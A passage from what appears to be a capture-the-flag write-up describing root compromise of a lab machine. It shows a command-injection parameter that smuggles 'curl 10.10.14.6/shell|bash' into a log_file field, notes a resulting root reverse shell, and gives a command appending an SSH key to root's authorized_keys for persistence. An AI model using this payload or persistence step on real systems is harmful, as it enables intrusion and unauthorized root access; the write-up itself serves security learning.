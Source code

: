 ## Parameter Payload

The command in full to download the file containing the shell and piping it directly to bash to be executed.

```
log_file=/var/log/apache2/access.log&&curl 10.10.14.6/shell|bash&analyze_log=
```

## Reverse Shell (root)

It worked. For some reason the shell would die a few seconds after establishing a connection. There was enough time to execute commands by having it saved in the copy/paste buffer ready to go. I read the root.txt file this way. I also added keys to root's configuration which allowed root access via SSH.

![3126bae6522155816f9e31a810a533dc.png](/assets/img/3126bae6522155816f9e31a810a533dc.png)

# Adding SSH Keys (root)

The command used to write SSH keys to root profile.

```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOqQqZgFQhQP1ZZnQfcS+LXmBzBmDD8rTu5AgrSMpxIE kali@kali" >> /root/.ssh/authorized_keys
```

